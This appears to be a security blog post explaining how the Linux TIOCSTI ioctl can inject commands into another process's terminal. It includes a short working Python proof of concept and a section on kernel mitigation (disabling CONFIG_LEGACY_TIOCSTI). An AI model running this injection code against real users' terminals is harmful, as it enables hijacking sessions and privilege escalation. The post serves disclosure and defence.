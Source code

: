 **_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do.

---

I wrote this article back in 2021, and it was available on my old website. Since 2022, there's a mitigation available, so I've decided to bring the article back and update it.

---
## The TIOCSTI interface abuse

### **Prerequisite:** root

> (Not always! This is a potential privilege escalation and lateral movement vector.)

Imagine that you could take control over processes' stdin. For example inject commands into someones shell, giving impression, that the shell has been took control over and is executing commands by itself.

How does one manage to affect the file descriptors of a process in such unsafe way?

[Dangerous interface - TIOCSTI.](https://undeadly.org/cgi?action=article;sid=20170701132619) 

A common use of this interface, is to control hardware devices. But it can be also used to inject commands into unsuspecting TTY's, even connected to other devices for example over SSH.

Proof of Concept: 
```python
import sys, os 
import termios, fcntl 

# specify tty
process = sys.argv[1]

# Open the process input file descriptor
fd = "/proc/" + process + "/fd/0" 
fd_handle = os.open(fd, os.O_RDWR) 

while True: 
  line = input(f"{fd} $ ") 
  for character in line: 
     fcntl.ioctl(fd_handle, termios.TIOCSTI, character)
     fcntl.ioctl(fd_handle, termios.TIOCSTI, '\x0d')
```

In the example above we are attaching to the process stdin, sending chars one by one, and then executing the command by sending the **'\x0d'** shell escape char.

### What is the result?

![Proof of Concept](images/poc.gif)

 > In summary, it is possible to transparently take control over a program descriptor using TIOCSTI.

## Mitigation:

TIOCSTI is a kernel problem.
https://jdebp.uk/FGA/TIOCSTI-is-a-kernel-problem.html

If you use BSD, you are safe, as this interface has been removed completely.
In case you use Linux, it is enabled by default, however, it is possible to disable it since 2022, Kernel version 6.2.

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04b22aaed1df99bc70a48fe9d22c4d

Recompile your kernel with this setting as below:

```
CONFIG_LEGACY_TIOCSTI=n
```


Disabling this interface may result in programs relying on TIOCSTI to break.

If you wan't to continue using TIOCSTI, make sure to test if only privileged users are able to use it, and there are no vulnerable apps there to abuse it, **to prevent privilege escalation scenarios.**

Example privilege escalation:
https://vuldb.com/?id.223097

Stay safe!

K.